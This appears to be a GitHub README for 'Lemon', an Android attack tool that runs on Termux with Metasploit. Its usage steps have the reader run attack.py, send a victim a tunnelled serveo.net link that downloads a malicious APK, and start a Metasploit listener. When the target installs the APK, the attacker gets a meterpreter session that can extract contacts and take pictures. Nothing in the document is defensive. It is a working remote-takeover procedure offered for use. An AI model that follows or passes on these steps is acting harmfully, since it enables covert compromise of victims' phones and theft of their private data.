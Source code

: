 **Requirements :-**

1.Metasploit-Framework

2.PHP

3.Openssh


**Installation :-**

1.Install git by typing "pkg install git"

2.Download Lemon by typing "git clone https://github.com/Lemon-Hacking/Lemon

3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

**How to use :-**

1. Start the script by executing 'python attack.py'

2. Once the script completes, copy the link you get under "Forwarding HTTP port.." and put your payload's name after it, for example : https://lente.serveo.net/lemon.apk, this link downloads the malicious apk when opened.

3. Open up a new session, and type "msfconsole -r automate.rc", this should start metasploit and   provide it necessary options. Once it stops, type "run" and press enter, this will start the   listener.

4. When the target installs and open the apk using your link, you will get a meterpreter session in your listener.

5. Bow you can type 'help' for a list of options, example extract contacts, snap a picture etc.

